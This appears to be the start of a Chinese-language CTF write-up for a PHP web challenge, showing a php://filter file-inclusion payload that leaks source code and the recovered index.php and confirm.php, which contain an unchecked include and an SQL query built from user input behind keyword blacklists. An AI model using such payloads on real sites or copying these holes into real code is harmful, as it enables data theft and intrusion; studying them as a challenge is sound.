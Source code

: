 提示传递`file`查询

```php
/index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

```php
<?php

ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
```

```php
/index.php?file=php://filter/read=convert.base64-encode/resource=confirm.php
```

```php
<?php

require_once "config.php";
//var_dump($_POST);

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = $_POST["address"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if($fetch->num_rows>0) {
        $msg = $user_name."已提交订单";
    }else{
        $sql = "insert into `user` ( `user_name`, `address`, `phone`) values( ?, ?, ?)";
        $re = $db->prepare($sql);
        $re->bind_param("sss", $user_name, $address, $phone);
        $re = $re->execute();
        if(!$re) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单提交成功";
    }
} else {
    $msg = "信息不全";
}
?>
```